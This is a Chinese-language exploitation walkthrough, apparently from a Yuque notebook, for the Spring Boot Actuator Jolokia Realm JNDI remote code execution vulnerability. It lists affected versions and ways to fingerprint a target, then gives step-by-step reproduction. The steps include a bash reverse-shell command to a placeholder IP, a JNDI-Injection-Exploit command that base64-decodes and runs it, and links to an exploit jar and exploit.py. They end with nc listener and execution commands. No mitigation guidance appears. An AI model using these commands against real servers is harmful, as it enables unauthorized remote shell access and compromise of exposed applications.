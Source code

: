 # Spring Boot jolokia Realm JNDI远程代码执行漏洞

# 一、漏洞简介
Actuator 是 Spring Boot 提供的服务监控和管理中间件。当 Spring Boot 应用程序运行时，它会自动将多个端点注册到路由进程中。当配置`jolokia/list`接口，且访问`jolokia/list`接口存在`type=MBeanFactory`和`createJNDIRealm`关键字时，存在`Spring jolokia Realm JNDI`远程代码执行漏洞。

## 二、影响版本	
+ Spring Boot < 1.5 默认未授权访问所有端点
+ Spring Boot >= 1.5 默认只允许访问/health和/info端点，但是此安全性通常被应用程序开发人员禁用

Spring Boot 1.x版本端点在根URL下注册。

![1698576714277-71a73073-04b0-4a3c-966d-bba57e4944b9.png](./img/lD151wknq39V0bAQ/1698576714277-71a73073-04b0-4a3c-966d-bba57e4944b9-347569.png)

Spring Boot 2.x版本端点移动到/actuator/路径。

![1698576733486-183446b7-1066-4c12-9181-e16cb0df831d.png](./img/lD151wknq39V0bAQ/1698576733486-183446b7-1066-4c12-9181-e16cb0df831d-027623.png)

# 三、系统特征
1. 网站图片文件是一个绿色的树叶。



![1698576979706-f936398d-5236-4f6d-a518-474733394877.png](./img/lD151wknq39V0bAQ/1698576979706-f936398d-5236-4f6d-a518-474733394877-560639.png)

2. 特有的报错信息。

![1698576999220-8efdd199-4150-4cab-80c5-6d727340149c.png](./img/lD151wknq39V0bAQ/1698576999220-8efdd199-4150-4cab-80c5-6d727340149c-322932.png)

3. 存在`/jolokia/list`接口

![1698577033216-3270b605-0da8-421d-97f8-cfc8baa55626.png](./img/lD151wknq39V0bAQ/1698577033216-3270b605-0da8-421d-97f8-cfc8baa55626-943670.png)

# 四、漏洞复现
1. 确认存在`type=MBeanFactory`和`createJNDIRealm`关键字时，存在Spring jolokia Realm JNDI远程代码执行漏洞

![1698577944981-d1cd174f-c5f9-4361-9b31-2c765873cdf8.png](./img/lD151wknq39V0bAQ/1698577944981-d1cd174f-c5f9-4361-9b31-2c765873cdf8-560420.png)

![1698578013109-7e54d965-932c-4f56-80c0-9d1d0fd17a52.png](./img/lD151wknq39V0bAQ/1698578013109-7e54d965-932c-4f56-80c0-9d1d0fd17a52-816439.png)

2. 生成反弹shell命令

```plain
/bin/bash -i >& /dev/tcp/xx.xx.xx.xx/7777 0>&1
```

2. 将上述反弹shell命令base64编码后替换到下述`command`字符处，`vps`处填写为`vps ip`

```plain
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,command}|{base64,-d}|{bash,-i}" -A "vps"
```

3. 将`JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar`上传到vps中运行上述命令

[JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar](https://www.yuque.com/attachments/yuque/0/2024/jar/1622799/1709222253187-2cb205fa-03a1-4c83-b20d-15ef97031929.jar)

![1698577387014-60a6f59b-e08b-46ae-8cd0-2adbd24dc7dc.png](./img/lD151wknq39V0bAQ/1698577387014-60a6f59b-e08b-46ae-8cd0-2adbd24dc7dc-960558.png)

4. 修改 expliot 中的 url 和 rmi 地址

[exploit.py](https://www.yuque.com/attachments/yuque/0/2024/py/1622799/1709222253494-e1aea116-ca7d-4438-bcaa-3c9b5188ff09.py)

![1698577518599-c06c9711-aace-4078-a8f8-ec67e5d0e4a8.png](./img/lD151wknq39V0bAQ/1698577518599-c06c9711-aace-4078-a8f8-ec67e5d0e4a8-478851.png)

![1698577467774-16a487a1-d095-4973-ac7e-9320596f094f.png](./img/lD151wknq39V0bAQ/1698577467774-16a487a1-d095-4973-ac7e-9320596f094f-552345.png)

4. nc 监听端口

```plain
nc -lvvp 7777
```

![1698577554789-09ca2754-5c88-4810-8889-e9c6b9fbe0d1.png](./img/lD151wknq39V0bAQ/1698577554789-09ca2754-5c88-4810-8889-e9c6b9fbe0d1-869854.png)

5. 执行exp收到反弹shell

```plain
python3 exploit.py
```

![1698577713992-325f1991-81a1-4e32-9088-607fffc268ef.png](./img/lD151wknq39V0bAQ/1698577713992-325f1991-81a1-4e32-9088-607fffc268ef-793843.png)

![1698577666540-851adfb8-d788-44e5-807b-276e44ee32a4.png](./img/lD151wknq39V0bAQ/1698577666540-851adfb8-d788-44e5-807b-276e44ee32a4-019562.png)



> 更新: 2024-02-29 23:57:33  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/asne342gkdk4cde8>